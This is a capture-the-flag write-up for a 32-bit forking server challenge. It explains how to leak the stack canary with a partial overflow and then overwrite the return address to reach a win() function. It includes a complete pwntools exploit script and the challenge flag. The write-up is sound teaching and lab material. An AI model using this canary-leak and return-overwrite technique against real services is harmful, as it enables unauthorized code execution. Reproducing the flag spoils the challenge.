



## Description

Canary in a coal mine

## Solution

### Quick overview

```sh
$ checksec exo
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```
There is stack canary but no PIE. Program looks simple, looks like there is a `recv` of 400 char stored on a 64B buffer : this is our entrypoint for triggering overflows.


> Overview of the client handling pseudo-c
> 
> 


Another really useful thing : the `setup_serv` function calls `fork()` making every child process inheriting the same canary as the parent.

We also have a `puts` that can be followed by the vulnerable `recv` (at next loop iteration) meaning we can leak the canary then buffer overflow without modifying the canary.

My first idea would be to leak the canary to rewrite its value during the buffer overflow, this way the canary check at the end won't fail.

### Leaking the canary

Using ghidra/binary ninja, we see that the canary value is loaded into : `$ebp - 0xc`

Looking at `p/x $ebp - 0xc`, we see a value that ends by 0x00 (which is [typical of canary values](https://bebitwise.io/blog/why-stack-canary-zero)), after that we can check if the canary stays in the same spot each time, and it looks like it is : `$ebp - 0xc` always stores a rather random value that ends by 0x00.

> The two ASM lines responsible for loading the canary value


Now we know which address the canary is, let's build a first payload that will be printed by puts, allowing our script to retrieve and reuse the canary for next payload.

I used a trick from [PWN Introduction video from @Mouthon](https://www.youtube.com/watch?v=TdQa6QwyovI), to avoid the `%s` to stop at the 0x00 from the canary :
buffer overflow to overwrite only the first canary byte (0x00) by a distinctive char (i used `\n`). Then using `recvuntil`, wait for this char and get 3 next bytes, this our canary value (miinus the 0x00).

```python
line = t.recvuntil(b"A"*64 + b"\n") # buffer size : 64 and canary is next to it
leaked = t.recv(3)
canary = b"\x00" + leaked # add missing 0x00
```

### Second overflow : overwrite return adress

We successfully leaked the canary, the `while` loop iterated, we are ready to trigger another overflow, this time to overwrite the return address of `handle_client()`. As we did before, we'll use vulnerable `recv` to overflow, rewrite the canary to avoid stack smashing write another few padding bytes and finally win function's address.

```py
new_payload = b"A" * 64 + canary + b"A" * 12
new_payload += WIN_ADDRESS # win() address
```


> Visual representation of the stack layout to explain the payload.
> <p align="center">
> 
> </p>

## Solution script

```py
from pwn import *

PAD = 64
ADDR_WIN = 0x080493d3

t = remote("localhost", 9000)

payload = b"A" * PAD + b"\n"
t.send(payload)

line = t.recvuntil(b"A"*PAD + b"\n")
leaked = t.recv(3, timeout=1)

canary = b"\x00" + leaked
canary_val = u32(canary)
log.success(f"Canary leaké : {canary_val:#x}")

new_payload = b"A" * PAD + canary 
new_payload += b"A" * 12 # EBX + EBP + padding
new_payload += p32(ADDR_WIN)

print(canary)
print("sending:", new_payload)

t.send(new_payload)
t.send(b"end")

print(t.recv())
t.interactive()
```

## Flag

<details> 
<summary>Spoiler</summary>

```
flag{BruteForcingCanaryForTheWin!}
```

</details>
